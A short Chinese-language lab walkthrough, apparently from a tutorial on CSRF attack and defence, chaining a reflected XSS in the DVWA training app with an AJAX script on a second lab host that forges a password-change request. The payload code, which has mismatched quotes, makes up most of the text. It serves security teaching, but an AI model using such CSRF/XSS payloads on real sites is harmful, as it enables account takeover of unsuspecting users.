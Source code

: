 环境准备：

1、在dvwa上，同时存在csrf和xss

2、在csrf站点上，制造ajax.html

```
<script>
xmlhttp=new XMLHttpRequest();
xmlhttp.open(“POST”,http://192.168.123.129/dvwa/vulnerabilities/csrf/”,true);
xmlhttp.setRequestHeader(“Content-type”,”application/x-www-form-urlencoded”);
xmlhttp.send(“password_new=123456&password_conf=123456”&Change=Change”);
</script>
```

![ajax](CSRF的攻击与防御原理/ajax.png)

`http://192.168.123.130/csrf/ajax.html`

3、在dvwa下，利用反射型XSS更改密码

```
<script src="http://192.168.123.130/csrf/ajax.html"></script>
```

![利用反射型XSS更改密码](CSRF的攻击与防御原理/利用反射型XSS更改密码.png)

此时密码已经修改

4、用admin和password登录成功
